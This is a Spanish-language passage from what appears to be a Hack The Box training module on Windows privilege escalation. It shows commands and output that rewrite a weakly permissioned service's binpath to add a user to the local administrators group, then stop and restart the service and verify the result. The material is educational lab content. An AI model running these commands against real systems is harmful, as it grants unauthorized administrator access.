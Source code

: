   Permisos débiles

```cmd-session
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```

#### Servicio de parada

A continuación, debemos detener el servicio, por lo que el nuevo`binpath`El comando se ejecutará la próxima vez que se inicie.

  Permisos débiles

```cmd-session
C:\htb> sc stop WindscribeService
 
SERVICE_NAME: WindscribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x4
        WAIT_HINT          : 0x0
```

#### Comenzando el servicio

Como tenemos control total sobre el servicio, podemos comenzarlo nuevamente y el comando que colocamos en el`binpath`se ejecutará a pesar de que se devuelve un mensaje de error. El servicio no se inicia porque el`binpath`no apunta al ejecutable de servicio real. Aún así, el ejecutable se ejecutará cuando el sistema intente iniciar el servicio antes de equivocar y detener el servicio nuevamente, ejecutando cualquier comando que especifiquemos en el`binpath`.

  Permisos débiles

```cmd-session
C:\htb> sc start WindscribeService

[SC] StartService FAILED 1053:
 
The service did not respond to the start or control request in a timely fashion.
```

#### Confirmando la adición del grupo de administración local

Finalmente, verifique para confirmar que nuestro usuario fue agregado al grupo de administradores locales.

  Permisos débiles

```cmd-session
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
htb-student
mrb3n
The command completed successfully.
```
